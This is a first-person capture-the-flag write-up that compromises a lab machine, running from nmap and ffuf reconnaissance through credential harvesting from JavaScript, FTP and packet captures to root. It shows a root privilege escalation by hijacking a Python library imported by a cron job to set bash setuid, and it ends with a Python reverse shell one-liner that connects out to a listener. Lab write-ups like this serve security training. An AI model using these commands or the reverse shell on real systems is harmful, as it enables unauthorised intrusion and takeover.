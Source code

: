 I started with "sudo ping -c4 10.10.226.228" to make sure I had a connection with the box.
````
PING 10.10.226.228 (10.10.226.228) 56(84) bytes of data.
64 bytes from 10.10.226.228: icmp_seq=1 ttl=63 time=53.6 ms
64 bytes from 10.10.226.228: icmp_seq=2 ttl=63 time=54.3 ms
64 bytes from 10.10.226.228: icmp_seq=3 ttl=63 time=54.1 ms
64 bytes from 10.10.226.228: icmp_seq=4 ttl=63 time=55.7 ms
````

Everything seems to be working so let's start with a basic nmap scan.
````
nmap -p- 10.10.226.228 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 10:07 EEST
Nmap scan report for 10.10.226.228
Host is up (0.059s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
37370/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.69 seconds
````

Let's refine that a bit for more information.
````
nmap -sVC -p22,80,37370 10.10.226.228
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 10:08 EEST
Nmap scan report for 10.10.226.228
The host is up (0.057s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
````

So there is SSH, Apache HTTP server, and FTP server with open ports.
Let's check the webserver first as we do not have credentials for SSH or FTP.
The website seems to be for a photography company and there are pricing and gallery pages.
I used ffuf to find more directories 
````
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.226.228/FUZZ -ic -t 70
````
Directories found were "gallery, static, pricing". I then used to find more directories with ffuf.
From the "static" directory ffuf found 18 photos and 1 extra with the name "00" which was a much smaller file than the photos.
````
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
````

The directory found is a login page. I had ZAP running in the background to catalog everything I went to and the login page loaded "dev.js" which has a function that compares cleartext credentials.
If you log in with the credentials that the function uses for comparison it opens the "/devNotes37370.txt" file with the following:
````
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
````

As the notes hint, let's try if the plaintext credentials work for the FTP server!
`ftp 10.10.226.228 37370` with the credentials gets us in and there are three .pcapng files.
Downloaded them to my Kali and inspected them with Wireshark.
I spent a while for looking anything interesting in the TCP stream but interesting information was in HTTP requests.
There was one post request in the last file for a login page and as the protocol was not encrypted, the credentials were in plaintext.
I used the credentials to try to log in to the box with SSH and it worked!
There was `user.txt` in the valley user's home folder.

I once again spent way too long looking for ways to escalate privileges and then just tried to "su siemDev" with a password from "dev.js" and it worked.
So now I have access to `valleyDev` and `siemDev` accounts.
So there was a `valleyAuthenticator` elf binary in "/home" folder so I investigated it.
There probably is a better way to figure out what is going on in the binary but I transferred it to Kali and used strings valleyAuthenticator``.
I got a long list of strings which I grepped for "user" and "pass*" and found some cleartext username of sorts and a password gibberish.
My eye caught a few lines above that looked like hexadecimal strings. Used crackstation.net to see if I was correct and it gave a partial match for one of the lines.
I combined two lines and it's a match! I tried the newly found password for the "valley" user and it worked.

Earlier trying to figure out privilege escalation I found a Python script that runs every minute with root privileges from "/etc/crontab".
Again I tried for a while to find a way to get the script to execute a command by editing the image files but to no avail.
What I should have done is check for what access `valleyAdmin` group that `valley` user was in. 
`/photos/script/photosEncrypt.py` script imports "base64" from "/usr/lib/python3.8" and I have write access to it as `valleyAdmin` group member. 
So I added the line `os.system("chmod u+s /bin/bash")` and as it runs as a root it edited the "bash" binary so I could spawn a privileged shell.
There was a `root.txt` in `/root` folder.

I also spent some extra time to get a reverse shell one-liner working! Here it is: 
````
import sys,socket,os,pty; s=socket.socket(); s.connect(("10.10.10.10",1234)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/bash")
````
